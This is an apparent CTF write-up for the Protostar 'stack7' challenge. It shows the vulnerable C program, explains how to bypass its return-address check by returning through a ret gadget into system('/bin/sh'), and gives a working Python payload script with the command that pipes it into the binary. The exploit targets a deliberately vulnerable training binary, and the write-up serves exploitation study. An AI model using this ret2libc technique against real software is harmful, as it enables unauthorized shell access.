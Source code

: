 # Stack7

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {       // <- prevent to return to both in libc and stack
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Idea

- This challenge is basically the same as stack6, but it's prevent us to use buffer overflow to redirect the program into stack or libc

![img](/protostar/stack7/assets/info_proc_map.png)

![img](/protostar/stack7/assets/sys_ex_addr.png)

![img](/protostar/stack7/assets/ret.png)

- But we can return to any text segment of this program which we can find with objdump and use it like a repeater.

![img](/protostar/stack7/assets/text_seg.png)

- Let's find some ret instructions to bypass "if condition" :3

![img](/protostar/stack7/assets/ret_addr.png)

- So many rets, but I choose 0x8048383.

```
|          . . . . .
|  + ----------------------+ 
|  |                       | 
|  |   80 bytes padding    | 
|  |                       | 
S  + ----------------------+       
t  |    ret (0x08048383)   |     <- ret of getpath() 
a  + ----------------------+ 
c  |  system (0xb7ecffb0)  | 
k  + ----------------------+ 
|  |   phake ret ("aaaa")  | 
|  + ----------------------+ 
|  | "/bin/sh"(0xb7fb63bf) |     <- feed argument for system()
|  +-----------------------+
|          . . . . .
```

## Exploit

```python
# file name: exp.py

padding = "a"*80
ret_addr = "\x83\x83\x04\x08"
system_addr = "\xb0\xff\xec\xb7"
fake_ret = "a"*4
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + ret_addr + system_addr + fake_ret + binsh_addr

print(payload)

# python exp.py > temp.pwn
# (cat temp.pwn; cat) | ./stack7
```

## Result

![img](/protostar/stack7/assets/result.png)
